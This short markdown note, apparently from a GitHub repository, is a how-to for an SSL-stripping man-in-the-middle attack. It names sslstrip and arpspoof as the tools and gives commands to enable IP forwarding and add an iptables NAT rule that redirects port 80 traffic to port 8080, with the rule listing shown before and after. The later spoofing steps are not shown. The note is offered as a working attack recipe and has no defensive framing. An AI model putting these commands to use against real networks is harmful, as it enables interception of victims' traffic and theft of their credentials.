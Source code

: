 ## ssl striping https to http (mitm)
*tools needed* 
1. sslstrip
2. arpspoof

### steps
1. `echo 1 > /proc/sys/net/ipv4/ip_forward`  its either 0 or 1.  we need it to be 1.  
2. `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`  
3. verify -- `iptables -t nat -L PREROUTING`  
before
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination 
```
after
```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             anywhere             tcp dpt:http redir ports 8080
```

